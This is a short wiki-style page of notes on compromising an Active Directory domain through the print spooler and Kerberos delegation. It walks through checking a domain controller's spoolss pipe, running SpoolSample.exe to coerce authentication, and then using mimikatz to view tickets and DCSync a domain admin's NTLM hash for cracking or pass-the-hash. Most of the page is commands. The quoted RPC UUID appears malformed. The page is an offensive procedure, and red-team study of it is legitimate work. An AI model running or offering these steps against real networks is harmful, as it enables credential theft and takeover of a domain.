 <!-- TITLE: Spoolsample -->
<!-- SUBTITLE: A quick summary of Spoolsample -->

Instructions from https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/domain-compromise-via-dc-print-server-and-kerberos-delegation
# First check is spoolss is running
## Method one from inside powershell on compromised box
ls \\dc01\pipe\spoolss

should result in a line showing a name of spoolss

## Method two
"You can use impacket's rpcdump.py to check if this UUID exists "12345678-1234-ABCD-EF00123456789AB".  No command execution is required.


# Now run spool Sample
From https://github.com/leechristensen/SpoolSample
A version is on anon in /security
dc01 is target. ws01 is the box that dc01 will rpc auth at.

```
.\SpoolSample.exe dc01 ws01
```
# Use mimikatz to view tickets in memory and use it.
```
mimikatz # sekurlsa::tickets
```
Hopefully it shows a TicketGrantingTicket

Now ask for the hash for the user spotless (ideally a domain admin)
```
mimikatz # lsadump::dcsync /domain:offense.local /user:spotless
```

Should show up in Hash NTLM line ready for cracking or passing. 

